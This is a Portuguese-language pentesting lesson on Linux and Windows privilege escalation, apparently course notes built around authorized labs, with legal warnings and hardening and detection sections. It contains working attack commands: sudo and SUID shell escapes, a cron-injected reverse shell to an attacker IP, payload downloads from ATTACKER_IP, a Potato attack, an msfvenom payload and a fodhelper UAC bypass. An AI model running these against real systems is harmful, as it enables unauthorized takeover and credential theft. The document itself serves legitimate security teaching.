

# Escalonamento de Privilégios

> [!quote] De Usuário a Administrador
> *Privilege escalation é a arte de transformar acesso limitado em controle total do sistema.*

---

## 🎯 O que é?

> [!success] Definição
> **Escalonamento de privilégios** (Privilege Escalation) é o processo de obter níveis mais altos de permissão do que o inicialmente concedido. Em um pentest real, raramente o acesso inicial já entrega root ou SYSTEM: o atacante obtém um shell de usuário comum e precisa elevar para comprometer o sistema por completo.

### Tipos

| Tipo | Descrição | Exemplo prático |
|------|-----------|-----------------|
| **Vertical** | Usuário comum para Administrador/root | `www-data` para `root` via SUID |
| **Horizontal** | Usuário A para Usuário B (mesmo nível) | `alice` para `bob` via credencial exposta |

### Onde o privesc se encaixa na kill chain

```
Reconhecimento → Exploração inicial → [SHELL BAIXO PRIVILÉGIO] → Privesc → [ROOT/SYSTEM] → Pós-exploração
                                                                       ↑
                                                              Você está aqui nesta aula
```

> [!warning] ⚠️ Contexto legal obrigatório
> Toda técnica desta aula se aplica exclusivamente a:
> - Máquinas próprias (lab local, VM, dual-boot)
> - Plataformas autorizadas: HackTheBox, TryHackMe, VulnHub, PwnTillDawn
> - Ambientes com **autorização escrita** do proprietário do sistema
>
> A execução dessas técnicas sem autorização configura crime tipificado no **art. 154-A do Código Penal** (invasão de dispositivo informático alheio), com pena de 1 a 4 anos de reclusão, aumentada de 1/3 se o dano for a governo/concessionária ou se houver obtenção de segredo empresarial/privacidade. Não existe zona cinza: autorização documentada é o limite entre pentest legítimo e crime.

---

## 🔍 Metodologia Geral de Enumeração

Antes de explorar qualquer vetor, o pentester deve **enumerar sistematicamente**. A ordem abaixo cobre os vetores de maior probabilidade para menor:

```
1. Contexto do usuário atual (id, grupos, sudo -l)
2. Kernel e versão do SO (uname, systeminfo)
3. Binários SUID/SGID (Linux) ou serviços mal configurados (Windows)
4. Tarefas agendadas (cron, scheduled tasks)
5. Capabilities e tokens de privilégio
6. Credenciais em arquivos/registro
7. Variáveis de ambiente e PATH
8. Softwares instalados e versões vulneráveis
```

### Árvore de decisão de privesc



---

## 🐧 Linux Privilege Escalation

> [!tip] Técnicas Comuns
> O Linux oferece dezenas de vetores. Aprenda a encontrá-los de forma metódica, não aleatória.

### Verificações Iniciais

```bash
# Contexto do usuário atual
id
whoami
groups

# Permissões sudo (SEMPRE o primeiro passo)
sudo -l

# Versão do kernel (para exploits específicos)
uname -a
cat /proc/version
lsb_release -a

# Arquivos SUID (executam como dono do arquivo, geralmente root)
find / -perm -4000 -type f 2>/dev/null

# Arquivos SGID
find / -perm -2000 -type f 2>/dev/null

# Linux capabilities (vetor frequentemente ignorado)
getcap -r / 2>/dev/null

# Tarefas cron do sistema
cat /etc/crontab
ls -la /etc/cron*
cat /etc/cron.d/*
crontab -l

# Cron jobs rodando em tempo real (sem root)
# Requer download do pspy: https://github.com/DominicBreuker/pspy
./pspy64

# Variáveis de ambiente
env
cat /proc/1/environ 2>/dev/null | tr '\0' '\n'

# Arquivos world-writable (qualquer um pode escrever)
find / -writable -type f 2>/dev/null | grep -v proc

# Histórico de comandos (frequentemente contém senhas)
cat ~/.bash_history
cat ~/.zsh_history

# Chaves SSH e configurações
ls -la ~/.ssh/
cat ~/.ssh/authorized_keys 2>/dev/null

# Credenciais em arquivos de configuração
grep -rn "password" /etc/ 2>/dev/null | grep -v Binary
grep -rn "passwd" /var/www/ 2>/dev/null | grep -v Binary
find / -name "*.conf" -o -name "*.config" -o -name "*.env" 2>/dev/null | xargs grep -l "pass" 2>/dev/null
```

### Vetores Comuns (detalhados)

| Vetor | Descrição | Comando de detecção | Risco |
|-------|-----------|---------------------|-------|
| **SUID binaries** | Binários que executam com privilégios do dono (root) | `find / -perm -4000 2>/dev/null` | 🔴 Crítico |
| **Sudo misconfig** | Permissões sudo mal configuradas (NOPASSWD, ALL) | `sudo -l` | 🔴 Crítico |
| **Kernel exploits** | CVEs no kernel sem patch aplicado | `uname -a` + linux-exploit-suggester | 🔴 Crítico |
| **Cron jobs** | Scripts de root world-writable ou com PATH hijacking | `cat /etc/crontab` + pspy | 🟠 Alto |
| **PATH hijacking** | Binário relativo em script de root com PATH controlável | strings sobre scripts SUID | 🟠 Alto |
| **Linux capabilities** | cap_setuid, cap_dac_override concedem root efetivo | `getcap -r / 2>/dev/null` | 🟠 Alto |
| **Credenciais expostas** | Senhas em .env, config.php, histórico, backup | grep recursivo + find | 🟡 Médio |
| **NFS misconfiguration** | no_root_squash permite montar como root local | `cat /etc/exports` | 🟡 Médio |
| **Docker group** | Membro do grupo docker equivale a root | `id` (verifica grupo docker) | 🔴 Crítico |
| **Writable /etc/passwd** | Adicionar usuário root fake | `ls -la /etc/passwd` | 🔴 Crítico |

---

### 🔥 GTFOBins: Binários Unix Exploráveis

**GTFOBins** (gtfobins.github.io) é o catálogo definitivo de binários Unix que podem ser abusados para escalar privilégios. Quando você encontrar um binário em `sudo -l` ou com bit SUID, consulte o GTFOBins antes de qualquer outra coisa.

#### Exemplos práticos de sudo misconfiguration

```bash
# Descoberta: sudo -l mostra que pode rodar vim como root
sudo vim -c ':!/bin/bash'
# ou
sudo vim -c ':set shell=/bin/bash' -c ':shell'

# Descoberta: pode rodar find como root
sudo find . -exec /bin/bash \; -quit

# Descoberta: pode rodar python3 como root
sudo python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'

# Descoberta: pode rodar nmap como root (versões antigas)
sudo nmap --interactive
# dentro do nmap: !sh

# Descoberta: pode rodar less/more como root
sudo less /etc/passwd
# dentro do less: !/bin/bash

# Descoberta: pode rodar awk como root
sudo awk 'BEGIN {system("/bin/bash")}'

# Descoberta: pode rodar perl como root
sudo perl -e 'exec "/bin/bash";'
```

#### Exemplos práticos de SUID exploitation via GTFOBins

```bash
# Listar todos os SUID e checar contra GTFOBins manualmente
find / -perm -4000 -type f 2>/dev/null

# bash com SUID (mantém privilégios com -p)
/bin/bash -p
# verifica: id (deve mostrar euid=0)

# find com SUID
find . -exec /bin/bash -p \; -quit

# cp com SUID (copia /etc/passwd para local, edita, copia de volta)
LFILE=/etc/passwd
cp "$LFILE" /tmp/passwd_backup
# edita /tmp/passwd_backup adicionando: hacker:x:0:0::/root:/bin/bash
cp /tmp/passwd_backup "$LFILE"
su hacker

# python com SUID
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# vim com SUID
vim -c ':py import os; os.execl("/bin/sh", "sh", "-p")'
```

---

### 📋 Linux Capabilities

Capabilities fragmentam os privilégios de root em unidades menores. Quando mal atribuídas a binários, permitem escalada total:

```bash
# Detectar capabilities atribuídas a binários
getcap -r / 2>/dev/null

# Exemplos perigosos:
# /usr/bin/python3.8 = cap_setuid+ep
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

# /usr/bin/perl = cap_setuid+ep
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

# /usr/bin/tar = cap_dac_read_search+ep (lê qualquer arquivo)
tar xf /etc/shadow --to-stdout 2>/dev/null

# /usr/bin/ruby = cap_setuid+ep
ruby -e 'Process::Sys.setuid(0); exec "/bin/bash"'

# /usr/bin/node = cap_setuid+ep
node -e 'process.setuid(0); require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]})'
```

---

### ⏰ Cron Jobs

Cron jobs rodando como root com arquivos world-writable são um vetor clássico e ainda frequente em CTFs e ambientes reais mal configurados:

```bash
# Enumerar todos os crons
cat /etc/crontab
cat /etc/cron.d/*
ls -la /var/spool/cron/crontabs/

# Monitorar processos em tempo real (detecta cron não visível em /etc/crontab)
# Baixar pspy: https://github.com/DominicBreuker/pspy/releases
chmod +x pspy64
./pspy64

# Verificar se o script que o cron executa é world-writable
ls -la /usr/local/bin/backup.sh
# Se -rwxrwxrwx: qualquer usuário pode editar

# Explorar: injetar reverse shell no script
echo 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1' >> /usr/local/bin/backup.sh

# Aguardar o cron executar e receber a conexão:
nc -lvnp 4444
```

#### PATH Hijacking via Cron

```bash
# Script cron que chama binário sem caminho absoluto:
# /usr/local/bin/maintenance.sh contém: backup_tool

# Verificar o PATH do script
cat /usr/local/bin/maintenance.sh | grep PATH

# Se PATH inclui diretório gravável (ex: /tmp):
echo '#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' > /tmp/backup_tool
chmod +x /tmp/backup_tool
# Aguardar cron executar
```

---

### 🧠 CVEs de Kernel (2024-2026)

> [!danger] 🔴 Atenção
> Exploits de kernel são instáveis e podem causar kernel panic (crash do sistema). Em lab, sempre tirar snapshot antes de testar. Em pentest real, explorar kernel é medida de ÚLTIMO RECURSO.

| CVE | Nome | Versões afetadas | Impacto |
|-----|------|-----------------|---------|
| **CVE-2022-0847** | Dirty Pipe | Linux 5.8 a 5.16.11 | Escrita em arquivos somente-leitura, LPE para root |
| **CVE-2024-1086** | "Flipping Pages" | nf_tables, kernels antigos | Use-after-free, LPE; usado por RansomHub/Akira |
| **CVE-2024-26809** | nftables Double-Free | nf_tables pré-patch 2024 | Double-free, execução arbitrária como root |
| **CVE-2026-23111** | nf_tables UAF | kernels pré-fev/2026 | Use-after-free em nf_tables, exploit >99% de confiabilidade |
| **CVE-2021-22555** | netfilter OOB | netfilter legado | Adicionado ao KEV da CISA em out/2025 |

```bash
# Verificar versão do kernel
uname -r
cat /proc/version

# Sugestão automática de exploits de kernel
# Baixar linux-exploit-suggester: https://github.com/The-Z-Labs/linux-exploit-suggester
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

# Ou passar a versão do kernel diretamente
./linux-exploit-suggester.sh --uname "$(uname -r)"
```

---

### 🤖 LinPEAS: Enumeração Automática Completa

**LinPEAS** (PEASS-ng) é o script de enumeração de privesc mais completo e atualizado para Linux. Em 2025-2026, recebeu detecção de novas superfícies: configurações de restic, writable systemd timers, NFS no_root_squash, e membros do grupo docker.

```bash
# Baixar diretamente na máquina alvo (requer internet no alvo)
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Baixar no Kali e servir via HTTP
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 8080

# Na máquina alvo, baixar e executar
wget http://ATTACKER_IP:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# Salvar saída para análise offline (com cores)
./linpeas.sh | tee /tmp/linpeas_out.txt
# ou sem cores para ler depois
./linpeas.sh -a > /tmp/linpeas_out.txt 2>&1

# Executar apenas verificações específicas (mais rápido)
./linpeas.sh -o SysI,UsrI,SofI        # Sistema, Usuários, Software
./linpeas.sh -o ProCronSrvcsTmrsSocks # Processos, Cron, Serviços, Timers, Sockets
```

#### Como interpretar a saída do LinPEAS

| Cor | Significado |
|-----|-------------|
| 🔴 **Vermelho/Amarelo** | Quase certamente explorável (99%): explorar imediatamente |
| 🔴 **Vermelho** | Configuração suspeita: investigar |
| 🟢 **Verde** | Configuração conhecidamente segura |
| 🔵 **Azul** | Usuários sem shell + dispositivos montados |
| 🩵 **Ciano claro** | Usuários com shell (alvos de movimento lateral) |
| 🟣 **Magenta** | Usuário atual |

---

## 🪟 Windows Privilege Escalation

> [!info] Técnicas Comuns
> O Windows tem sua própria superfície de ataque. O equivalente ao LinPEAS é o WinPEAS; o equivalente ao GTFOBins é o LOLBAS (lolbas-project.github.io).

### Verificações Iniciais

```cmd
REM Contexto completo do usuário atual (grupos, privilégios, SID)
whoami /all
whoami /priv
whoami /groups

REM Informações detalhadas do sistema (versão, patches instalados)
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

REM Patches instalados (busca por brechas)
wmic qfe list full

REM Usuários locais e grupos
net user
net localgroup administrators
net localgroup

REM Drives, processos e serviços
wmic logicaldisk get caption
tasklist /v
sc query state= all
wmic service list brief

REM Variáveis de ambiente e PATH
set
echo %PATH%
```

```powershell
# PowerShell: informações de privilégios
[System.Security.Principal.WindowsIdentity]::GetCurrent()

# Serviços com caminhos não entre aspas
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v '\"'

# Verificar AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Credenciais salvas
cmdkey /list
```

---

### Vetores Comuns (detalhados)

| Vetor | Descrição | Comando | Risco |
|-------|-----------|---------|-------|
| **Unquoted Service Paths** | Caminho de serviço com espaço sem aspas | `wmic service get pathname \| findstr /i /v '\"'` | 🔴 Crítico |
| **Service Permissions** | Serviço modificável por usuário comum | `accesschk.exe -uwcqv "Users" *` | 🔴 Crítico |
| **AlwaysInstallElevated** | MSI instala como SYSTEM | `reg query HKCU/HKLM AlwaysInstallElevated` | 🔴 Crítico |
| **Token Impersonation** | Roubar token de processo privilegiado (Potato attacks) | `whoami /priv` (buscar SeImpersonatePrivilege) | 🔴 Crítico |
| **DLL Hijacking** | DLL ausente em diretório gravável | ProcMon + Sysinternals | 🟠 Alto |
| **Kernel Exploits** | MS15-051, MS16-032 e similares | `systeminfo` + windows-exploit-suggester | 🟠 Alto |
| **Stored Credentials** | Credenciais no registro/arquivos | `cmdkey /list`, `reg query HKLM /f password /t REG_SZ /s` | 🟡 Médio |
| **Scheduled Tasks** | Tarefa rodando como SYSTEM com arquivo editável | `schtasks /query /fo LIST /v` | 🟡 Médio |
| **Autologon credentials** | Senha de autologon no registro | `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"` | 🟡 Médio |

---

### 🥔 Potato Attacks: Token Impersonation para SYSTEM

Se você comprometer um service account (IIS, MSSQL, Jenkins) ou qualquer conta com `SeImpersonatePrivilege`, os Potato attacks elevam diretamente para SYSTEM. São o vetor número um em ambientes Windows reais.

```powershell
# Verificar se SeImpersonatePrivilege está habilitado
whoami /priv
# Procurar por: SeImpersonatePrivilege - Enabled
```

| Ferramenta | Alvo | Comando |
|------------|------|---------|
| **JuicyPotato** | Windows Server 2016 / Win10 até 1803 | `JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c whoami" -t *` |
| **PrintSpoofer** | Windows Server 2019, Win10 (pré-patch print spooler) | `PrintSpoofer.exe -i -c cmd` |
| **RoguePotato** | Bypass do patch JuicyPotato (requer host externo) | `RoguePotato.exe -r ATTACKER_IP -e "cmd.exe"` |
| **GodPotato** | Windows 8 a 11, Server 2012-2022 (recomendado em 2026) | `GodPotato.exe -cmd "cmd /c whoami"` |

```cmd
REM Fluxo completo com GodPotato (2026)
REM 1. Confirmar SeImpersonatePrivilege
whoami /priv

REM 2. Baixar GodPotato no alvo
certutil.exe -urlcache -f http://ATTACKER_IP:8080/GodPotato.exe GodPotato.exe

REM 3. Executar shell reverso como SYSTEM
GodPotato.exe -cmd "cmd /c powershell -e BASE64_ENCODED_REVERSE_SHELL"

REM 4. Verificar no listener
REM nc -lvnp 4444 → whoami deve retornar nt authority\system
```

---

### 🔧 Unquoted Service Paths: Passo a Passo

```cmd
REM Encontrar serviços vulneráveis
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v "\""

REM Exemplo de caminho vulnerável detectado:
REM C:\Program Files\My App\service.exe
REM Windows tenta executar nesta ordem:
REM 1. C:\Program.exe
REM 2. C:\Program Files\My.exe
REM 3. C:\Program Files\My App\service.exe

REM Verificar permissão de escrita nos diretórios intermediários
icacls "C:\Program Files\My App"
REM Procurar por: BUILTIN\Users:(W) ou (F)

REM Se C:\Program Files\My App\ for gravável, criar executável malicioso
REM No Kali: msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe > "My.exe"
REM Copiar "My.exe" para "C:\Program Files\My.exe" ou destino vulnerável

REM Reiniciar o serviço
sc stop "My App Service"
sc start "My App Service"
REM ou aguardar reboot
```

---

### 🪟 WinPEAS: Enumeração Automática

```powershell
# Baixar WinPEAS no Kali e servir
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe
python3 -m http.server 8080

# Na máquina alvo (PowerShell)
Invoke-WebRequest -Uri "http://ATTACKER_IP:8080/winPEASany.exe" -OutFile "C:\Temp\winPEAS.exe"
.\winPEAS.exe

# Versão .bat (sem dependência de .NET, mais compatível)
Invoke-WebRequest -Uri "http://ATTACKER_IP:8080/winPEAS.bat" -OutFile "winPEAS.bat"
.\winPEAS.bat

# Salvar saída
.\winPEAS.exe > C:\Temp\winpeas_output.txt

# Módulos específicos (mais rápido)
.\winPEAS.exe servicesinfo
.\winPEAS.exe userinfo
.\winPEAS.exe windowscreds
```

#### O que o WinPEAS detecta em 2026

- Caminhos de serviço sem aspas e permissões fracas de serviço
- Chaves AlwaysInstallElevated no HKLM e HKCU
- Oportunidades de token impersonation (SeImpersonatePrivilege, SeAssignPrimaryTokenPrivilege)
- Tarefas agendadas com arquivos editáveis
- Credenciais em arquivos, registro e histórico de browsers
- DLLs faltando em diretórios graváveis
- UAC configurado para bypass (via autorização automática de executáveis confiáveis)

---

### 🛡️ UAC Bypass (User Account Control)

UAC não é um limite de segurança real: é uma camada de usabilidade. Dezenas de técnicas de bypass conhecidas funcionam em 2026:

```powershell
# Verificar nível de UAC configurado
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin
# 0 = sem prompt (bypass trivial)
# 2 = prompt para credenciais
# 5 = prompt de elevação (padrão)

# Técnica clássica: fodhelper.exe (auto-elevação + chave HKCU manipulável)
# Funciona em Windows 10/11 sem patch de mitigação
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd /c start cmd.exe" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"

# Limpeza após uso
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

---

## 🧪 Atividades de Lab

> [!example] 🧪 Atividade 1: Enumeração com LinPEAS e identificação de vetor em VM local
>
> **Objetivo:** rodar o LinPEAS numa máquina vulnerável de lab e identificar pelo menos um vetor de privesc com prova (virou root).
>
> **Pré-requisito:** VM Linux vulnerável (MetaSploitable2, VulnHub: "Basic Pentesting", ou TryHackMe room "Linux PrivEsc").
>
> **Passo a passo:**
>
> 1. Obter shell inicial como usuário comum (ex: credencial fraca SSH, RCE em serviço web).
> 2. Verificar contexto: `id && whoami && uname -a`
> 3. Transferir LinPEAS para o alvo:
>    ```bash
>    # Na Kali: servir via HTTP
>    wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
>    python3 -m http.server 8080
>
>    # No alvo: baixar e executar
>    wget http://KALI_IP:8080/linpeas.sh && chmod +x linpeas.sh
>    ./linpeas.sh | tee /tmp/out.txt
>    ```
> 4. Analisar saída: focar em linhas em VERMELHO/AMARELO (95%+ de certeza).
> 5. Escolher o vetor de maior confiança e explorar (SUID, sudo, cron, capability).
> 6. **Prova de root:** capturar a saída de `id` mostrando `uid=0(root)` e o conteúdo de `/root/root.txt` (flag de CTF) ou `/etc/shadow` (arquivo só root lê).
>
> **Entrega:** print/texto mostrando o vetor encontrado, o comando usado e a prova de root (`id` + flag ou shadow).

---

> [!example] 🧪 Atividade 2: Exploração de binário SUID via GTFOBins
>
> **Objetivo:** encontrar um binário SUID não-padrão na máquina de lab e escalar para root usando a técnica documentada no GTFOBins.
>
> **Pré-requisito:** mesma VM da Atividade 1 (ou específica com binário SUID configurado).
>
> **Passo a passo:**
>
> 1. Listar todos os binários SUID:
>    ```bash
>    find / -perm -4000 -type f 2>/dev/null
>    ```
> 2. Identificar binários não-padrão. Binários esperados em sistemas limpos (ignorar):
>    `passwd, sudo, su, ping, mount, umount, newgrp, chfn, chsh, pkexec, at`
>    Suspeitos: `find, vim, python, perl, bash, cp, nmap, tar, less, awk, php, ruby, node`
> 3. Consultar o GTFOBins (gtfobins.github.io) para o binário encontrado, filtrar por "SUID".
> 4. Copiar o comando exato e executar na máquina:
>    ```bash
>    # Exemplo para find com SUID:
>    find . -exec /bin/bash -p \; -quit
>    # Verificar:
>    id
>    # Esperado: uid=1000(user) gid=1000(user) euid=0(root) groups=...
>    ```
> 5. **Prova de root:** capturar `id` mostrando `euid=0(root)` e ler `/etc/shadow`:
>    ```bash
>    cat /etc/shadow
>    # Deve retornar hashes das senhas (só root pode ler)
>    ```
>
> **Entrega:** print com o binário SUID encontrado, o link do GTFOBins consultado, o comando executado e a prova (`id` + primeiras 3 linhas do `/etc/shadow`).

---

> [!example] 🧪 Atividade 3: Privesc no TryHackMe (documentação completa)
>
> **Objetivo:** completar uma das rooms de privesc do TryHackMe e documentar o processo completo, como num relatório de pentest real.
>
> **Rooms recomendadas (escolher uma):**
> - **"Linux PrivEsc"** (TryHackMe): cobre todos os vetores: SUID, sudo, cron, capabilities, NFS, senhas, kernel
> - **"Windows PrivEsc"** (TryHackMe): cobre unquoted service paths, AlwaysInstallElevated, token impersonation
> - **"Linux Privilege Escalation"** (TryHackMe, room paga): mais completa
>
> **Passo a passo:**
>
> 1. Conectar à VPN do TryHackMe (`openvpn arquivo.ovpn`).
> 2. Fazer deploy da room e anotar o IP da máquina alvo.
> 3. Seguir o fluxo: enumeração inicial → LinPEAS/WinPEAS → identificar vetor → explorar.
> 4. Para cada vetor explorado, documentar:
>    ```
>    VETOR: [nome do vetor]
>    COMANDO DE DETECÇÃO: [o que revelou o problema]
>    COMANDO DE EXPLORAÇÃO: [o que executou]
>    RESULTADO: [o que obteve: root shell, flag, etc.]
>    ```
> 5. Capturar a flag de root (`/root/root.txt` no Linux ou `C:\Users\Administrator\Desktop\root.txt` no Windows).
>
> **Entrega:** documento com fluxo completo (pode ser no Obsidian), cada vetor documentado no formato acima, flag de root visível no print.

---

## 🛡️ Defesa: Hardening e Detecção

> [!danger] ⚔️ Cada ataque tem uma defesa correspondente

### Linux: Hardening

| Vetor de ataque | Medida defensiva | Comando |
|-----------------|-----------------|---------|
| SUID desnecessário | Remover SUID de binários não essenciais | `chmod u-s /path/to/binary` |
| Sudo misconfiguration | Princípio do menor privilégio no sudoers | `visudo` (especificar comandos exatos, nunca ALL=ALL) |
| Capabilities perigosas | Remover capabilities desnecessárias | `setcap -r /path/to/binary` |
| Cron world-writable | Corrigir permissões de scripts | `chmod 700 /usr/local/bin/script.sh` |
| PATH hijacking | Usar caminhos absolutos em scripts de root | Auditar todos os scripts em `/etc/cron*` |
| Kernel desatualizado | Aplicar patches de segurança | `apt upgrade linux-image-generic` (Debian/Ubuntu) |
| Docker group privilege | Não adicionar usuários comuns ao grupo docker | Usar rootless Docker ou Podman |

```bash
# Auditoria rápida de SUID (listar e comparar com baseline)
find / -perm -4000 -type f 2>/dev/null | sort > /tmp/suid_atual.txt
diff /tmp/suid_baseline.txt /tmp/suid_atual.txt

# Verificar sudoers por entradas perigosas
grep -E "(NOPASSWD|ALL.*ALL)" /etc/sudoers /etc/sudoers.d/* 2>/dev/null

# Monitorar execuções de binários SUID com auditd
auditctl -a always,exit -F arch=b64 -S execve -F euid=0 -F auid>=1000 -k suid_exec
ausearch -k suid_exec
```

### Windows: Hardening

| Vetor de ataque | Medida defensiva |
|-----------------|-----------------|
| Unquoted service paths | Colocar todos os caminhos de serviço entre aspas |
| AlwaysInstallElevated | Desabilitar a chave de registro (0 em HKLM e HKCU) |
| Token impersonation (Potato) | Remover SeImpersonatePrivilege de contas de serviço (usar contas virtuais) |
| UAC bypass via fodhelper | Configurar UAC para "Sempre notificar" (nível máximo) |
| DLL hijacking | Usar AppLocker/WDAC para bloquear DLLs de diretórios não confiáveis |
| Credenciais no registro | Nunca configurar autologon; usar Windows Credential Guard |
| Serviços com permissões fracas | Usar ferramentas de baseline: `accesschk.exe -uwcqv "Users" *` |

```powershell
# Auditoria de unquoted service paths (PowerShell)
Get-WmiObject -Class Win32_Service | Where-Object {$_.PathName -notmatch '"' -and $_.PathName -match ' '} | Select-Object Name, PathName

# Verificar AlwaysInstallElevated
Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated -ErrorAction SilentlyContinue
Get-ItemProperty -Path "HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated -ErrorAction SilentlyContinue

# Listar contas com SeImpersonatePrivilege
whoami /priv
# Em contexto administrativo:
secedit /export /cfg C:\Temp\secpolicy.cfg
Select-String "SeImpersonatePrivilege" C:\Temp\secpolicy.cfg
```

### Detecção: o que o Blue Team monitora

| Técnica ofensiva | Indicadores de Detecção (IoC) |
|-----------------|-------------------------------|
| LinPEAS/WinPEAS rodando | Muitas chamadas de `find`, `cat /etc/passwd`, `getcap -r /` em sequência rápida |
| SUID exploitation | Execução de `find`, `python`, `perl` com `euid=0` por processo filho de usuário comum |
| Sudo abuse | Logs em `/var/log/auth.log`: `sudo: user : command not in sudoers` ou execução de shells via sudo |
| Cron injection | Modificação de arquivo em `/etc/cron*` ou `/usr/local/bin/` por usuário não-root |
| Potato attacks (Windows) | Evento 4624 com tipo de logon 3 (network) vindo de serviço local; CreateNamedPipe de processo de serviço |
| UAC bypass | Criação de chaves em `HKCU:\Software\Classes\ms-settings\` por processo não-administrativo |

---

## 📚 Recursos de Aprendizado

> [!success] Plataformas para Prática

| Recurso | Descrição |
|---------|-----------|
| **GTFOBins** (gtfobins.github.io) | Binários Linux exploráveis: sudo, SUID, capability, shell, file write |
| **LOLBAS** (lolbas-project.github.io) | Binários Windows nativos exploráveis (equiv. GTFOBins para Windows) |
| **HackTricks** (hacktricks.wiki) | Guia mais completo de técnicas de pentest, atualizado constantemente |
| **TryHackMe** | Rooms de privesc: "Linux PrivEsc", "Windows PrivEsc", "Common Linux Privesc" |
| **HackTheBox** | Máquinas reais; máquinas retired têm writeups oficiais |
| **PayloadsAllTheThings** (GitHub) | Repositório de payloads e técnicas por categoria |
| **PEASS-ng** (GitHub) | LinPEAS + WinPEAS: download e changelog |

### Aulas relacionadas desta disciplina

- **[[Exploração do alvo]]** (obter o shell inicial antes de escalar)
- **[[Manutenção do acesso]]** (após virar root, persistência)
- **[[Apagando rastros]]** (após a ação, limpar logs)
- **[[Tipos de ataques]]** (contexto geral)
- **[[Preparando o terreno]]** (setup do lab)

---

## ⚠️ Considerações Éticas

> [!danger] Atenção
> - Use apenas em **ambientes autorizados** (lab próprio, HTB, THM, VulnHub)
> - Documente todas as técnicas utilizadas (relatório de pentest)
> - Reporte vulnerabilidades de forma responsável (responsible disclosure)
> - **Art. 154-A do Código Penal:** invasão de dispositivo informático alheio, pena de 1 a 4 anos. Qualquer uso não autorizado é crime, sem exceção.
> - Em pentest profissional, nunca execute exploits de kernel sem autorização explícita do cliente por escrito (risco de crash do sistema em produção).

---

> [!note] 📚 Fontes (2026)
> - [Linux Privilege Escalation: Complete Guide for Pentesters (ComputingForGeeks)](https://computingforgeeks.com/linux-privilege-escalation-guide-kali/)
> - [Privilege Escalation Linux: 2025 Methods (OnlineHashCrack)](https://www.onlinehashcrack.com/guides/ethical-hacking/privilege-escalation-linux-2025-methods.php)
